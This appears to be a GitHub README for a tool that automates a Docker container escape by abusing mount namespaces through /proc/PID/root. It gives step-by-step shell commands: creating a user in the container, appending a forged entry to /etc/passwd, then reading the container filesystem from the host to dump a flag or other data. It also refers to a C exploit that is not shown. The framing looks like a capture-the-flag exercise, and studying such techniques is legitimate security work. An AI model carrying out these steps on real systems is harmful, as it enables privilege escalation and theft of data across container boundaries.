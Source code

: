 # Abusing mount namespaces through /proc/*PID*/root

In this repository I come to automate the namespace technique to escape from a Docker and elevate privileges/remove the flag/dump data, etcetera. You can read in more detail this technique [here](https://labs.withsecure.com/publications/abusing-the-access-to-mount-namespaces-through-procpidroot). In order to perform this technique successfully you need to fulfill the following requirements.

- Shell as non-privileged user on host
- Shell as root on the Docker.

Exploit:

**The following steps you must run them in the Docker as root.

``` shell
useradd luk4s # This user must exist on the host machine.
usermod -aG luk4s luk4s
echo "luk4s:x:1000:1000:luk4s:/home/luk4s:/bin/bash" >> /etc/passwd # The content can be taken out of the machine host -> grep luk4s /etc/paswd
su luk4s
/bin/sh # We run this command when we gain shell as luk4s in the container
```

With this we are ready to work on the container.

**The following commands must be executed from the hosts machine.**

``` shell
ps aux | grep sh # You will notice a process that runs your user with a sh, this was the process you created in the container
grep -a "flag" /proc/<pid>/root/sda
```

PoC:

![](https://i.imgur.com/7FyR5qG.png)

## Automation

Program a C script which automates the steps to follow in the container, if you want to use the binary you compile it using `gcc` and upload it to Docker.

``` shell
gcc exploit.c -o exploit
```

Thanks for reading :)
